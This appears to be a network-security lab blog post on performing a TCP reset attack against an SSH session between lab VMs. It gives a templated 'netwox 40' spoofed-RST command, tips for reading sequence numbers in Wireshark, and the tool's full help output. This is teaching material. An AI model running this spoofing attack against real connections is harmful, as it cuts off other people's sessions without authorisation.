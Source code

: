 ```yaml
---
layout: post
title: "TCP Reset Attack on an SSH Connection"
date: 2021-05-25 09:00:00 -0500
categories: Network_Security_&_Defense
tags: network security ssh tcp attack
---
```


## TCP Reset Attack

### Overview
In this demo, we will break an ssh connection between the victim and the ssh server.

### Setup
For this attack you will need 3 Linux VMs.
* VM1 as the victim (SSH client).
* VM2 as the ssh server.
* VM3 as the attacker.

The 3 VMs reside in the same network.

### Attack
The attacker, mimicking the server, only needs to send one RST packet to perform the attack. The requirement is, the attack needs to use "netwox 40" to perform this attack.

The command should be in this format:

```bash
# sudo netwox 40 --ip4-src source_ip --ip4-dst destination_ip --tcp-src source_port --tcp-dst destination_port --tcp-rst --tcp-seqnum sequence_number.
```

> **Note**: The attacker needs to use Wireshark to find out the parameter information for the above command: pay attention to the last packet sent from the server to the client, it will tell you what the next sequence number should be.
>
>See here: http://cs.boisestate.edu/~jxiao/cs333/images/tcpreset/nextseqnumber.png.
>
>Also, the next sequence number is always = current sequence number + TCP segment len.

> **Note2**: You can also mimick the client. The attack works in either direction.

Run ```bash netwox 40 --help ``` for help information, like below.

```` bash
seed@VM:~$ netwox 40 --help
Title: Spoof Ip4Tcp packet
Usage: netwox 40 [-c uint32] [-e uint32] [-f|+f] [-g|+g] [-h|+h] [-i uint32] [-j uint32] [-k uint32] [-l ip] [-m ip] [-n ip4opts] [-o port] [-p port] [-q uint32] [-r uint32] [-s|+s] [-t|+t] [-u|+u] [-v|+v] [-w|+w] [-x|+x] [-y|+y] [-z|+z] [-A|+A] [-B|+B] [-C|+C] [-D|+D] [-E uint32] [-F uint32] [-G tcpopts] [-H mixed_data]
Parameters:
 -c|--ip4-tos uint32            IP4 tos {0}
 -e|--ip4-id uint32             IP4 id (rand if unset) {0}
 -f|--ip4-reserved|+f|--no-ip4-reserved IP4 reserved
 -g|--ip4-dontfrag|+g|--no-ip4-dontfrag IP4 dontfrag
 -h|--ip4-morefrag|+h|--no-ip4-morefrag IP4 morefrag
 -i|--ip4-offsetfrag uint32     IP4 offsetfrag {0}
 -j|--ip4-ttl uint32            IP4 ttl {0}
 -k|--ip4-protocol uint32       IP4 protocol {0}
 -l|--ip4-src ip                IP4 src {172.16.77.129}
 -m|--ip4-dst ip                IP4 dst {5.6.7.8}
 -n|--ip4-opt ip4opts           IPv4 options
 -o|--tcp-src port              TCP src {1234}
 -p|--tcp-dst port              TCP dst {80}
 -q|--tcp-seqnum uint32         TCP seqnum (rand if unset) {0}
 -r|--tcp-acknum uint32         TCP acknum {0}
 -s|--tcp-reserved1|+s|--no-tcp-reserved1 TCP reserved1
 -t|--tcp-reserved2|+t|--no-tcp-reserved2 TCP reserved2
 -u|--tcp-reserved3|+u|--no-tcp-reserved3 TCP reserved3
 -v|--tcp-reserved4|+v|--no-tcp-reserved4 TCP reserved4
 -w|--tcp-cwr|+w|--no-tcp-cwr   TCP cwr
 -x|--tcp-ece|+x|--no-tcp-ece   TCP ece
 -y|--tcp-urg|+y|--no-tcp-urg   TCP urg
 -z|--tcp-ack|+z|--no-tcp-ack   TCP ack
 -A|--tcp-psh|+A|--no-tcp-psh   TCP psh
 -B|--tcp-rst|+B|--no-tcp-rst   TCP rst
 -C|--tcp-syn|+C|--no-tcp-syn   TCP syn
 -D|--tcp-fin|+D|--no-tcp-fin   TCP fin
 -E|--tcp-window uint32         TCP window {0}
 -F|--tcp-urgptr uint32         TCP urgptr {0}
 -G|--tcp-opt tcpopts           TCP options
 -H|--tcp-data mixed_data       mixed data
 --help2                        display help for advanced parameters
```
